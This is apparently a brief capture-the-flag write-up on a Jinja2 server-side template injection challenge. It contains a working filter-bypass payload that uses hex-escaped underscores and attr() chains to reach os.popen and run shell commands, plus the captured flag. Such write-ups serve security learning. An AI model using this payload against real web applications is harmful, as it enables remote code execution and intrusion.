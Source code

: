 ### Unintelligible-Chatbot

After realizing it was a SSTI chall after using `{{7*7}}` as input and getting 49 as output, I went for RCE but saw that it was blocking most of the common chars like `_ . [ ] join`.

I then just ripped off the following payload from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection).

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

ls -> cat flag

### Flag

`flag{n07_4n07h3r_5571_ch4ll3n63}`
